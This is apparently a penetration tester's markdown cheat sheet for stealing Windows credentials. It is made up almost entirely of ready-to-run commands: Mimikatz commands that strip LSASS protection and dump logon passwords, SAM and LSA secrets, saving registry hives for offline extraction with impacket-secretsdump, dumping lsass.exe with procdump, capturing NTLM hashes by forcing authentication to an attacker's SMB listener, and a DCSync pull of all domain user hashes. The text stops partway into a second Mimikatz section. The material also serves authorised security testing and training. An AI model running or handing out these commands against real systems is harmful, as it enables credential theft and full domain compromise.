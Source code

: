 ```shell
# Mimikatz
privilege::debug
token::elevate

# Use this if above doesn't fully give results
sekurlsa::logonpasswords # use this if above doesn't fully give results
!+ # if logonpasswords returns an error, do this and the below
!processprotect /process:lsass.exe /remove
# then try sekurlsa::logonpasswords again

# SAM (LOCAL) / LSA (DOMAIN) / LSASS (Users logged on since last reboot)
lsadump::sam /patch
lsadump::lsa /patch OR lsadump::lsa /inject
sekurlsa::msv

# Windows Cred Manager hashes
sekurlsa::credman # Windows Cred Manager hashes


# Reg
# 1 Save the files
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
# reg save HKLM\SECURITY "C:\Windows\Temp\security.save"

# 2 Transfer to Kali and dump
impacket-secretsdump -sam sam.save -system system.save [ -security security.save ] local


# Others
procdump -accepteula -ma lsass.exe lsass.dmp

Task Manager → Right click lsass.exe → Create dump file
Control Panel → User Accounts → Credential Manager
```
## NTLM Capture via UNC
```shell
# 1 Use Responder OR impacket-smbserver
sudo responder -I tap0

impacket-smbserver smb . -smb2support

#  2 Force auth
dir \\KALI_IP\path\to\test
```
# *dcsync(LADC,NTDS)*
***Can obtain ALL USER HASHES via targeted attack***
## impacket-secretsdump
```shell
# NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc `dom`/AdminUser[:pass]@`dc` -hashes :HASH
# Options
# -just-dc-user TARGETUSER
# -just-dc-ntlm ⇒ only NTDS.dit data (NTLM hashes only)
```
## mimikatz
```shell
# Mimikatz
privilege::debug
```
